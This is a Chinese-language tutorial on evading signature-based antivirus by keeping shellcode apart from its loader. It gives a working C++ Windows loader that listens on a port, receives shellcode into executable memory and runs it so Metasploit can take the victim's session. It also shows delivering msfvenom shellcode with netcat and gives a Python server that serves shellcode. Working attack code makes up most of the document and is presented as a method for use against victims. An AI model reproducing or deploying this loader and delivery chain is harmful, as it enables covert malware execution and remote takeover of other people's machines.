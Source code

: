# 简单的分离免杀

## 简介

通常杀毒软件会匹配静态特征来进行恶意软件的识别，虽然现在有很多行为查杀的引擎，但个人认为杀毒软件仍旧已特征码为主，行为免杀很大程度上是监控windows api，而这些恶意软件使用的api往往都是和合法软件是一致的，这也成为了行为查杀技术的桎梏，很多恶意软件只要换个不同的编译环境，就能不被杀毒软件注意到从而绕过杀毒软件。

本文鉴于目前杀毒软件仍旧以特征库为主，将病毒代码体和执行体分离，从而规避特征免杀。

## 流程

1. 在受害者电脑上打开个侦听端口，分配可执行内存
2. 等待传入 payload
3. 连接到受害者侦听端口，将 shellcode 作为二进制数据发送
4. 受害者将 shellcode 拷入可执行内存
5. 执行 shellcode，由 metasploit 接管 session

## 代码实现

给出代码是监听端口等待连接的，也可以做简单修改做成反向连接的。

```text
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ws2_32.lib")
int main(void)
{
LPWSADATA wsaData = new WSAData();
SOCKET listenSocket = INVALID_SOCKET;
SOCKET ClientSocket = INVALID_SOCKET;
CHAR bufferReceivedBytes[4096] = { 0 };
INT RecvBytes = 0;
PCSTR port = "477";
ADDRINFOA* SocketHint = new ADDRINFOA();
ADDRINFOA* AddrInfo = new ADDRINFOA();
SocketHint->ai_family = AF_INET;
SocketHint->ai_socktype = SOCK_STREAM;
SocketHint->ai_protocol = IPPROTO_TCP;
SocketHint->ai_flags = AI_PASSIVE;
WSAStartup(MAKEWORD(2, 2), wsaData);
GetAddrInfoA(NULL, port, SocketHint, &AddrInfo);
listenSocket = socket(AddrInfo->ai_family, AddrInfo->ai_socktype,
AddrInfo->ai_protocol);
bind(listenSocket, AddrInfo->ai_addr, AddrInfo->ai_addrlen);
listen(listenSocket, SOMAXCONN);
ClientSocket = accept(listenSocket, NULL, NULL);
RecvBytes = recv(ClientSocket, bufferReceivedBytes, sizeof(bufferReceivedBytes),
NULL);
LPVOID shellcode = VirtualAlloc(NULL, RecvBytes, MEM_COMMIT | MEM_RESERVE,
PAGE_EXECUTE_READWRITE);
memcpy(shellcode, bufferReceivedBytes, sizeof(bufferReceivedBytes));
((void(*)()) shellcode)();
return 0;
}
```

## 实现效果

![](../.gitbook/assets/image%20%2845%29.png)

端口已经开始侦听 我们使用 msf 生成 shellcode 并通过 nc 交付给受害者

![](../.gitbook/assets/image%20%2874%29.png)

生成一段 c 格式的 shellcode

![](../.gitbook/assets/image%20%2856%29.png)

处理一下变成一句字符串的形式

![](../.gitbook/assets/image%20%284%29.png)

```text
echo -e “shellcode-line” |nc  ip port
```

可以使用简单的python服务器传递shellcode

```text
import socket
import threading
import time  

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('127.0.0.1', 36444)) # 公网地址
    s.listen(20)
    timeout = 10
    socket.setdefaulttimeout(timeout)
    while True:
        sock, addr = s.accept()
        t = threading.Thread(target=tcplink, args=(sock, addr))
        t.start()


def tcplink(sock, addr):
    print('Start download shellcode %s:%s...' % addr)
    shellcode = b'1111111' #your shellcode
    print(len(shellcode))
    while True:
        data = sock.recv(1024)
        time.sleep(3)
        sock.send(shellcode)
        sock.close()
    print('Finish %s:%s ' % addr)


if __name__ == '__main__':
    main()
```

![](../.gitbook/assets/image%20%2863%29.png)

![](../.gitbook/assets/image%20%2826%29.png)



